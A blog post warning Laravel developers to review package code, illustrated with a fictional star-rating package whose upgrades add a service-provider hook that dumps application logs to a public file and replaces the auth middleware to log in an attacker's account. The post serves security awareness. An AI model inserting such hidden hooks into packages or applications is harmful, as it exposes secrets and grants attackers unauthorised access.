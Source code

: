 ```yaml
---
title: Remember to Review Your Package Code for Security
date: 2019-08-12
tag:
- php
- laravel
- security
---
```

Open source software is wonderful for many reasons.  One of the best is we can see and inspect the software for vulnerabilities.  But, far too many people actually do this.  Let me demonstrate, using a Laravel package, how this lack of review might backfire and cause you grief.

<!--more-->

It's important to note that this attack vector is not solely a problem with Laravel.  A lot of projects and code are configured to trust libraries from the package providers.

## My Initial Set Up

I have a website on which I sell shoes.  For example, I have this extremely boring listing for a pair of flip flops:

{{< image src="/uploads/2019/security-demo-1.png" thumb="/uploads/2019/security-demo-1.thumbnail.png" alt="Text-based Stars" >}}

I'd like to add icon-style stars to the rating.  I heard about this awesome package that allows me to use a Blade directive to do that.  Seems like a nice way to save some time.  The following command is ran:

```bash
composer require aaronsaray/laravel-star-display
```

Before you know it, I have a new Blade helper - yay!  Now, I can write the code like this in my blade file:

```html
<strong>Rated:</strong> @stars(5)
```

I get a nice view like this:

{{< image src="/uploads/2019/security-demo-2.png" thumb="/uploads/2019/security-demo-2.thumbnail.png" alt="UTF8-Icon-based Stars" >}}

This is great! Moving on!

**Well, there's a problem.**  I didn't look at the code that I just installed.  This package injects its code by registering an auto-discovered service provider for Laravel.  This ease of use/installation is also what makes it easy for this to take advantage of my website.

Let's take a look at the code in the package's service provider:

```php
<?php
namespace AaronSaray\StarDisplay;

use Illuminate\Support\Facades\Blade;
use Illuminate\Support\ServiceProvider;

class StarDisplayServiceProvider extends ServiceProvider
{
    public function boot(): void
    {
        Blade::directive('stars', function ($stars) {
            return "<?= str_repeat('🌟', $stars) ?>";
        });
    }
}
```

Whew - I dodged a bullet!  This package has no malicious code

## It's Upgrade Season

There's an upgrade for this package.  It probably gives me more features or makes it more efficient? I don't have time to check into this.  So, the package gets updated.  Everything seems to be working fine.  However, during this upgrade, the service provider has changed (and I didn't notice).  There's a new line:

```php
<?php
namespace AaronSaray\StarDisplay;

use Illuminate\Support\Facades\Blade;
use Illuminate\Support\ServiceProvider;

class StarDisplayServiceProvider extends ServiceProvider
{
    public function boot(): void
    {
        Blade::directive('stars', function ($stars) {
            return "<?= str_repeat('🌟', $stars) ?>";
        });
        
        app()
          ->make('log')
          ->pushHandler(
            new \Monolog\Handler\StreamHandler(public_path('/secret-log.txt'))
          );
    }
}
```

This code is accessing the Monolog `Logger` instance and adding another stream handler to it.  It's writing my log data to a public directory.  Later on, the "bad guy" can surf to `http://my-site.com/secret-log.txt` and see a copy of all my application logs.

Not a big deal? You never know... you might have a log entry like:

```txt
logger('User sensitive information here.')
```

or the application could be configured to log errors.  These stack traces could include passwords and secret keys.

## Another Upgrade

Just by downloading this newly publicly available log file, the attacker has useful information about my users and app.  But, the fact that the log even exists indicates that I use their package and don't care about reviewing it for security.

Imagine I have this very simple admin interface:

```php
Route::get('admin', function () {
    return view('admin');
})->middleware('auth');
```

When you surf to `http://my-site.com/admin` you must be authenticated.  Otherwise, you're redirected.  This is because of the `auth` middleware.  Cool!

The new Star Display package upgrade introduces new code, however.  See if you can spot what's going to happen.

```php
<?php
namespace AaronSaray\StarDisplay;

use Illuminate\Support\Facades\Blade;
use Illuminate\Support\ServiceProvider;

class StarDisplayServiceProvider extends ServiceProvider
{
    public function boot(): void
    {
        Blade::directive('stars', function ($stars) {
            return "<?= str_repeat('🌟', $stars) ?>";
        });
        
        app()
          ->make('log')
          ->pushHandler(
            new \Monolog\Handler\StreamHandler(public_path('/secret-log.txt'))
          );
          
        app()->instance(Authenticate::class, function ($request, $next) {
          $badGuyUser = User::where('email', 'bad@guy.com')->first();
          Auth::login($badGuyUser);
          return $next($request);
        });
    }
}
```

In this code, the bad guy replaces the `Authenticate` (which is aliased to `auth`) middleware with an inline closure.  When we check `auth`, instead of running any sort of checks, this code just grab the bad guy user and force them to be logged in.

## End Notes

These were some pretty contrived examples, but it should illustrate the point. I wanted to demonstrate how it's important for us all to read the code before we install and upgrade packages.  Through these demonstrations, I hope to have shown that a pretty unskilled attacker can compromise your website with just a few lines of code in Laravel.

Again, these attacks are not limited to Laravel.  Something similar to this just happened with [NPM packages](https://www.theregister.co.uk/2018/11/26/npm_repo_bitcoin_stealer/).